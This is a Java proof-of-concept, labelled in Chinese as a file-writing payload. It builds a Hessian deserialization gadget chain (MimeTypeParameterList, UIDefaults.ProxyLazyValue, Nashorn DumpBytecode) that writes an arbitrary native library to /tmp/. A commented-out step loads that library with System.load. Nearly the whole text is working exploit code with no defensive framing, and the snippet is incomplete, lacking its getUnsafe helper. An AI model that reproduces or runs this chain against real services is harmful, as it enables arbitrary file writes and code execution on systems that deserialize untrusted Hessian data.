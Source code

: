 写文件payload：
```java
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import jdk.nashorn.internal.runtime.ScriptEnvironment;
import jdk.nashorn.internal.runtime.logging.DebugLogger;
import sun.misc.Unsafe;

import javax.swing.*;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Hessian_MimeTypeParameterList_ProxyLazyValue_DumpBytecode {
    public static void main(String[] args) throws Exception {
        Unsafe unsafe = getUnsafe();
        Object script = unsafe.allocateInstance(ScriptEnvironment.class);
        setFieldValue(script,"_dest_dir","/tmp/");
        Object debug=unsafe.allocateInstance(DebugLogger.class);
        byte[] code= Files.readAllBytes(Paths.get("./calc.so"));
        String classname="calc";

        //写文件
        UIDefaults.ProxyLazyValue proxyLazyValue = new UIDefaults.ProxyLazyValue("jdk.nashorn.internal.codegen.DumpBytecode", "dumpBytecode", new Object[]{
                script,
                debug,
                code,
                classname
        });

        //System.load加载so文件
//        UIDefaults.ProxyLazyValue proxyLazyValue = new UIDefaults.ProxyLazyValue("java.lang.System", "load", new Object[]{
//                "/tmp/calc.class"
//        });

        setFieldValue(proxyLazyValue,"acc",null);
        UIDefaults uiDefaults = new UIDefaults();
        uiDefaults.put("key", proxyLazyValue);

        Class clazz = Class.forName("java.awt.datatransfer.MimeTypeParameterList");
        Object mimeTypeParameterList = unsafe.allocateInstance(clazz);
        setFieldValue(mimeTypeParameterList, "parameters", uiDefaults);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(baos);
        baos.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(mimeTypeParameterList);
        out.flushBuffer();

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        Hessian2Input input = new Hessian2Input(bais);
        input.readObject();
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
```